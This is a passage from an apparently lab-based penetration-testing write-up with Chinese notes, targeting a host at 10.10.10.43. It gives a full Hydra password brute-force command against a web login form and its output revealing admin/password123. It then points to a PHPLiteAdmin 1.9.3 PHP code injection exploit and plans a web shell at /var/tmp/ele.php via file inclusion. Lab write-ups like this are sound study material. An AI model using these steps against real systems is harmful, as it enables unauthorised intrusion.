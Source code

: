 ```bash
└─# hydra -l admin -P keyword.list 10.10.10.43 https-post-form  "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64 -I
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-06 21:18:33
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:1/p:10), ~1 try per task
[DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
```

password123 弱口令登录



漏洞利用

[PHPLiteAdmin 1.9.3 - Remote PHP Code Injection - PHP webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/24044)

常规写shell，路径是 /var/tmp/ele.php ，得找文件包含一起利用

<img src=".\图片\Snipaste_2023-09-07_09-52-22.png" alt="Snipaste_2023-09-07_09-52-22" style="zoom:80%;" />

<img src=".\图片\Snipaste_2023-09-07_10-20-01.png" alt="Snipaste_2023-09-07_10-20-01" style="zoom: 80%;" />
